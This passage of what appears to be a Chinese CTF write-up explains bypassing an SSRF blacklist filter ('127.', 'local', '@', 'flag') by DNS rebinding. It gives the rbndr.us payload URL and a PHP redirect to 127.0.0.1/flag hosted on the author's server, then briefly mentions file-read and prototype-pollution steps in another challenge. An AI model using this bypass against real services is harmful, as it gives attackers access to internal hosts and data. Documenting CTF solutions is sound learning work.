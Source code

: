 ```javascript
        try {
            if (ip.fromLong(s.replace(/[^\d]/g,'').substr(0,10)).match(regex))
                return false
        } catch (e) {}
        if (s.match(regex))
            return false
    }
    return true
}

exports.check = check
```

dnslookup 会请求url的真实ip，存在`let blacklist = ['wrong', '127.', 'local', '@', 'flag']`限制



利用dns重绑定 payload

```
fileurl=http://7925af9a.b65c40b3.rbndr.us:8001/index.php
```

自己vps 8001 上的index.php

```php
<?php
header('Location:http://127.0.0.1/flag');
```





![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201224171754.png)

第一检测 获取到 题目服务器ip 通过check

第二次检测 获取自己vps的ip 然后跳转到 他的`127.0.0.1/flag`



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201224172230.png)









## 华为HCIE的第一课

存在任意文件读取，获取源码

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20201228120320649.png)

login.js 变量拼接，之后原型链污染

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201228130202.png)
